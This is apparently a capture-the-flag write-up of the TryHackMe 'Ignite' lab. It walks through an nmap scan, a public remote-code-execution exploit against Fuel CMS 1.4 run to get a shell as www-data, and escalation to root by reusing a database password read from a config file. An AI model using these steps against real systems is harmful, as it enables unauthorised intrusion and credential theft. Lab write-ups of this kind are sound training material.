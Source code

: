 # TryHackMe: Ignite

## Initial Enumeration

First, let's start with a basic Nmap scan to discover open ports and services:

```bash
nmap -A -p- -T4 10.48.144.132
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-01 10:48 +06
Nmap scan report for 10.48.144.132
Host is up (0.081s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18
| http-robots.txt: 1 disallowed entry
|_/fuel/
```

### Key Findings:
- Only port 80 is open (HTTP)
- Apache 2.4.18 web server
- Discovered `/fuel/` in robots.txt

## Web Enumeration

Upon visiting port 80, we discovered:
- Default installation page of Fuel CMS (version 1.4)
- Admin panel URL with default credentials
- Successfully logged in with default credentials (unchanged)

## Vulnerability Assessment

Searching for known vulnerabilities in Fuel CMS 1.4:

```bash
searchsploit fuel CMS 1.4
-------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                        |  Path
-------------------------------------------------------------------------------------- ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                            | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                            | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                            | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                           | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                  | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                      | php/webapps/48778.txt
-------------------------------------------------------------------------------------- ---------------------------------
```

### Locating the Exploit

```bash
searchsploit -p 47138
  Exploit: fuel CMS 1.4.1 - Remote Code Execution (1)
      URL: https://www.exploit-db.com/exploits/47138
     Path: /usr/share/exploitdb/exploits/linux/webapps/47138.py
    Codes: CVE-2018-16763
```

## Initial Access

Testing the RCE exploit:

```bash
python3 /usr/share/exploitdb/exploits/php/webapps/50477.py --url http://10.10.160.108/
[+]Connecting...
Enter Command $id
systemuid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Note on Command Execution
The initial exploit has a limitation where commands run independently and don't maintain state. For example:

```bash
Enter Command $pwd
system/var/www/html

Enter Command $cd /home
system

Enter Command $pwd
system/var/www/html
```

To overcome this limitation, a custom modified version of the exploit was created.

## Privilege Escalation

1. Ran LinPEAS for system enumeration
2. Found interesting configuration file: `/var/www/html/fuel/application/config/database.php`
3. Retrieved database credentials from the config file:

```php
$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'REDACTED',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
)
```

### Root Access
Successfully switched to root using the discovered password and accessed the root flag.

## Flags
- User flag location: `/home/www-data/`
- Root flag: Accessible after privilege escalation
